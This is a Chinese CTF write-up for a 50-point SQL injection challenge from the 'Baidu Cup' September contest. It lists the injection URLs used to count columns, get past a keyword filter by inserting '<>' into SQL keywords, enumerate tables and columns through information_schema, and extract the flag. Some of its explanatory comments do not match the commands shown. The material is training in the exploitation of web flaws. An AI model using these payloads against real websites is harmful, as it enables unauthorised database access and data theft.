




# SQL

## 题目描述
---
```
出题人就告诉你这是个注入，有种别走！
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---
SQL 注入

## 题目分值
---
50

## 部署方式
---


## 解题思路
---

判断回显字段数量

```
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 o<>rder by 3
正确
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 o<>rder by 4
错误
```

所以有三个字段，使用下面语句判断证明存在回显，且回显在位置2

```
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 un<>ion se<>lect 1,2,3
```

回显数据库

```
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 un<>ion se<>lect 1,database(),3
```



列出表名  select group_concat(distinct table_name) from information_schema.tables where table_schema=database()

```
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 un<>ion sel<>ect 1,group_concat(distinct table_name),3 from information_schema.tables where table_schema=database()
```



存在表 info和users

列出列名  select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name=0x61646d696e

```
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 un<>ion sel<>ect 1,group_concat(distinct column_name),3 from information_schema.columns where table_schema=database() a<>nd ta<>ble_name='info'
```



info表 id,title,flAg_T5ZNdrm
users表 id,username,flag_9c861b688330

列出数据 select group_concat(username,0x7c,password,0x7c,Email) from admin

```
http://05ccb6b3092d46d2ba43749dc0667cd372c1c33510a74df4.changame.ichunqiu.com/index.php?id=1 un<>ion se<>lect 1,group_concat(id,0x7c,title,0x7c,flAg_T5ZNdrm),3 from info
```



flag{8325306c-73f5-4a06-952e-532e65edf9d3}

## 参考
---
